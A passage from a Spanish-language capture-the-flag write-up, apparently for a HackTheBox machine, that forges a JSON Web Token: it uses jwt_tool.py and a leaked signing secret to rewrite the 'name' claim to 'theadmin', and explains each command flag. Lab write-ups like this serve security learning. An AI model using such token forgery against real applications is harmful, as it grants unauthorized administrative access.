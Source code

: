 vemos la informacion que contiene y el algoritmo que usa.

para editar un token y que sea legitimo para la aplicacion necesito firmarlo con el **TOKEN_SECRET** que ya lo tenemos asi que hagamoslo:

```bash
python3 jwt_tool.py -I -S "hs256" -pc "name" -pv "theadmin" -p "gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE" eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWI0MDY3N2QwYjdmMzA0NjFlMmI5NTkiLCJuYW1lIjoia3Jpa282OSIsImVtYWlsIjoia3Jpa282OUBodGIuY29tIiwiaWF0IjoxNjM5MTg4MTYwfQ.08SR9ExrW2Hk-m7DInB5XA8IRtth--WfM4udSjHPW-k
```

- -I: especificamos que vamos a insertar nueva data o modificar la existente.
- -S: especificamos el algoritmo que usara para el nuevo token modificado. (usaremosel mismo)
- -pc: nombre del campo de la data que queremos modificar.
- -pv: nuevo valor para ese campo
- -p: especificamos el **TOKEN_SECRET**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SECRET/images/25.png)

NOTA: con el parametro -T podemos agregar o eliminar data.

si comprobamos la data de ese token:

